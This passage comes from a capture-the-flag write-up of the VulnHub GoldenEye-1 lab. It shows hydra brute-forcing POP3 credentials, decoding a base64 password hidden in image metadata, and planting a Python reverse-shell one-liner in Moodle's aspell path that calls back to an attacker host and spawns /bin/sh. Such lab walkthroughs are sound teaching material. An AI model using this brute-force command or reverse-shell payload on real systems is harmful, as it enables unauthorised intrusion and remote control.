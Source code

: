 ## Back to TCP/55007 - POP3

1. Bruteforce POP3 again
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/smtp]
	└─# hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$ip:55007 -e nsr -t 10 -I
	
	[55007][pop3] host: 192.168.236.12   login: doak   password: goat
	```
	- doak:goat
2. View doak's emails
	- `doak@ubuntu`
	![](images/Pasted%20image%2020220128041618.png)
	- dr_doak:4England!

## Back to TCP/80 - Obtain More Creds + Moodle CMS Exploit (RCE) 
1. Login w/ dr_doak:4England! & proceed to private files
	![](images/Pasted%20image%2020220128042228.png)
2. View `s3cret.txt`
	![](images/Pasted%20image%2020220128042353.png)
	- /dir007key/for-007.jpg
3. Download  `/dir007key/for-007.jpg` 
4. Detect any hidden files/text
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/loot/http]
	└─# exiftool for-007.jpg | grep Description
	Image Description               : eFdpbnRlcjE5OTV4IQ==
	```
5. Decode text
	```
	┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/loot/http]
	└─# echo -n eFdpbnRlcjE5OTV4IQ== | base64 -d
	xWinter1995x!
	```
	- admin:xWinter1995x!
6. Login w/ admin:xWinter1995x!
	- No Private Files
	- No Messages
7. View moodle version
	![](images/Pasted%20image%2020220128043224.png)
	- `moodle 2.2.3`
8. Insert reverse shell
	1. Proceed to `Site Administration -> Server -> System Paths`
	2. Edit Path to aspell
		```
		python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.236.4",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
		```
		- Only python reverse shell worked
		